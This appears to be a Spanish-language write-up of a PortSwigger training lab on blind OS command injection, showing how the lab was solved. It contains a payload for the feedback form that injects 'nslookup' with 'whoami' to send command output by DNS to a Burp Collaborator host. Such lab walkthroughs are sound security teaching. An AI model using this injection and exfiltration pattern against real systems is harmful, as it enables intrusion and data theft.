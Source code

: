 ```yaml
---
title: "05 Blind OS command injection with out-of-band data exfiltration"
collection: publications
category: portswigger
permalink: publications/Command Injection/05_Blind OS command injection with out-of-band data exfiltration
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos de SO ciego en la función de retroalimentación.

La aplicación ejecuta un comando shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asíncrona y no tiene ningún efecto sobre la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que se pueda acceder. Sin embargo, se pueden desencadenar interacciones fuera de banda con un dominio externo.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind OS command injection with out-of-band data exfiltration'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-5/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-5/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, ejecutamos el comando whoami y exfiltramos la salida a través de una consulta DNS a Burp Collaborator.

## Analisis

En esta ocación este laboratorio no podemos redireccionar la salida del comando a otra carpeta, sino a un servidor externo. BurpSuite nos proporciona un "Servidor" el cual se va a redireccionar la salida del comando ejecutado.

Copiamos el servidor `nslookup` que nos proprciona

![Conf1]({{site.url}}/images/Command Injection/command-lab-4/conf1.png)

Asi que debemos inyectar el payload en la respuesta del formulario, no olvidar colocar `url enconde`

```javascript
& nslookup `whoami`.tjgapmpd6yhieubhjiot4zc7iyoqco0d.oastify.com #
```

![Conf2]({{site.url}}/images/Command Injection/command-lab-4/conf2.png)

Vemos la respuesta

![Conf3]({{site.url}}/images/Command Injection/command-lab-4/conf3.png)

Y la pegamos en el laboratorio

![Conf4]({{site.url}}/images/Command Injection/command-lab-4/conf4.png)

## Aprobado

![Aprobado]({{site.url}}/images/Command Injection/command-lab-4/aprobado.png)